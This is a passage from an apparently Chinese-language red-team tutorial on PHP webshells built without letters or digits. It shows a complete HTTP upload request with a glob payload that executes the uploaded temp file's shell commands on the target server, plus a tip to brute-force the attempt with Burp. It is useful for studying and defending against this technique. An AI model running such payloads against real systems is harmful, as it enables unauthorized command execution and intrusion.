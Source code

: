 ```html
</body>
</html>
```

提交一个 1.txt 的文件，这个文件会被保存在这个 /tmp/phpXXXXXX 临时文件夹下，我们执行这个临时文件夹就是执行 1.txt 文件里面的内容。

我们在把 1.txt 中写入 ls，并把执行完 1.txt 文件返回的内容（即执行 ls 返回的内容）保存在 var/www/html 目录下的 abc 文件中

var/www/html 是 Apache 的默认路径，我们也可以直接写 ls />abc

```
POST /test.php?evil=`.+/???/????????[@-[]`; HTTP/1.1
Content-Length: 195
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNQMxukHq6dCelaDR
Connection: close

------WebKitFormBoundaryNQMxukHq6dCelaDR
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

ls />/tmp/abc
------WebKitFormBoundaryNQMxukHq6dCelaDR--
```

> 这里如果测不出来建议用burp爆破模块跑

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/7.png)
